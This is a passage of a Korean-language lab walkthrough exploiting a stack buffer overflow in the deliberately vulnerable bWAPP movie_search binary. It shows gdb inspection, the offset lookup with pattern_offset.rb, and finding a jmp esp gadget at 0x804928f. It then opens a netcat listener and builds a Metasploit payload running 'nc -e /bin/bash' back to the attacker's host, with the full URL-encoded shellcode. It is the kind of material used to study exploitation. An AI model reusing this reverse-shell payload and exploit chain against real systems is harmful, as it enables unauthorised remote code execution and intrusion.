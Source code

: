 * `x/100cb $esp`: esp(`$esp`) 레지스터 100개의 주소의 바이트 값(`b`), 캐릭터 값(`c`)을 hexadecimal(`x`)로 보여줘라
* [gdb 명령어 참고](http://visualgdb.com/gdbreference/commands/x)
* **l9Am**부터 시작하니 이 오프셋을 확인해야 함

### 5. pattern_offset.rb로 esp 주소 오프셋 확인

```bash
root@ming:/usr/share/metasploit-framework/tools/exploit# ./pattern_offset.rb -q l9Am
[*] Exact match at offset 358
```

* 354에서 eip가 꽉 채워지고 그 뒤 358부턴 esp에서 채워지고 있음
* **eip가 꽉 채워지면 나머지는 esp로 감**
* **eip에 esp로 점프하라는 명령어를 채워야 함**

### 6. `jmp $esp` 명령어가 바이너리에 있는지 찾고 주소 알아내기

```bash
bee@bee-box:/var/www/bWAPP/apps$ objdump -D ./movie_search | grep jmp.*esp
 804928f:       ff e4                   jmp    *%esp
```

* HINT: `\x90*354 + \x8f\x92\x04\x08 + [payload]`
* `804928f:       ff e4                   jmp    *%esp`
* **804928f** --> **80 04 92 8f** --> **8f 92 04 08** **(리틀엔디언)**
* 명령어 + 페이로드를 전달하면 되는데 `\x00`은 걸러져서 제외시켜야 함
* opt_sub 인코더가 오버플로가 나도 앱을 실행하게 함(SIGSEGV를 발생시키지 않음)
* /bin/ps를 웹에 실행하는 건 강의에서 한 과정과 일치
* reverse shell을 실행시켜 보겠음

### 7. 칼리리눅스에서 4444포트 열기

```bash
root@ming:~/바탕화면# nc -lvp 4444
listening on [any] 4444 ...
```

### 8. 메타스플로잇으로 payload2.txt 만들고 페이로드 만들기

```bash
msf > use linux/x86/exec
msf payload(exec) > set cmd nc -e /bin/bash 192.168.190.155 4444
cmd => nc -e /bin/bash 192.168.190.155 4444
msf payload(exec) > generate -b '\x00' -e x86/opt_sub -t raw -f /tmp/payload2.txt
[*] Writing 317 bytes to /tmp/payload2.txt...
msf payload(exec) > exit
root@ming:~/바탕화면# { echo -n \'; cat /tmp/payload2.txt; echo -n \'; } | perl -pe's/(.)/sprintf("%%%02x", ord($1))/seg'
%27%54%58%2d%79%fc%fd%fd%2d%01%01%01%01%2d%01%01%01%01%50%5c%25%01%01%01%01%25%02%02%02%02%2d%75%1c%30%7d%2d%01%01%01%01%2d%01%01%01%01%50%2d%53%df%74%2b%2d%01%01%01%01%2d%01%01%01%01%50%2d%12%ca%20%1d%2d%01%01%01%01%2d%01%01%01%01%50%2d%f0%ff%fc%fc%2d%01%02%01%01%2d%01%01%01%01%50%2d%fe%fd%f9%02%2d%01%01%01%01%2d%01%01%01%01%50%2d%fe%fd%ff%f5%2d%01%01%02%01%2d%01%01%01%01%50%2d%0c%fe%fa%03%2d%01%01%01%01%2d%01%01%01%01%50%2d%bc%cd%c3%c7%2d%01%01%01%01%2d%01%01%01%01%50%2d%fe%f5%02%37%2d%01%01%01%01%2d%01%01%01%01%50%2d%33%02%4c%fe%2d%01%01%01%01%2d%01%01%01%01%50%2d%2b%f5%ba%0c%2d%01%01%01%01%2d%01%01%01%01%50%2d%16%46%61%1e%2d%01%01%01%01%2d%01%01%01%01%50%2d%78%9a%1a%ab%2d%01%01%01%01%2d%01%01%01%01%50%2d%04%58%7f%e7%2d%01%01%01%01%2d%01%01%01%01%50%2d%37%ba%f7%66%2d%01%01%01%01%2d%01%01%01%01%50%2d%ca%e7%7e%95%2d%01%01%01%01%2d%01%01%01%01%50%2d%0f%21%7d%39%2d%01%01%01%01%2d%01%01%01%01%50%2d%e6%58%0e%92%2d%01%01%01%01%2d%01%01%01%01%50%27
```
